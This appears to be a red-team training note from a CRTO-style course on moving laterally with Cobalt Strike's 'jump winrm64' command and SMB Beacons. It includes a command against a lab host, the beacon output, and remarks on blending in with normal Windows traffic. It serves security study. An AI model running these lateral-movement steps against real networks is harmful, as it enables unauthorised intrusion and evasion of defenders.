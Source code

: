 
Windows official tool for remotely manage, automate, and administer remote systems from different vendors.

The `winrm` and `winrm64` methods can be used for 32 and 64-bit targets as appropriate.

## 🖊️ via [[Cobalt Strike]]

The SMB Beacon is an excellent choice when moving laterally, because the SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.

For example:

```
beacon> jump winrm64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web.dev.cyberbotic.io via WinRM
[+] host called home, sent: 225172 bytes
[+] established link to child beacon: 10.10.122.30
```

Here, we are moving laterally (assuming our current [[Access Token]] allows it to) into wed.dev server, via an smb beacon. 

WinRM will return a high integrity Beacon running as the user with which you're interacting with the remote machine as:

![[winrm.png]]

This new Beacon will be running inside `wsmprovhost.exe`, which is the "Host process for WinRM plug-ins".  This is used whenever WinRM is used, legitimate or otherwise.


### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 11:37
🏷️ tags: #redteam #crto #Windows 

---

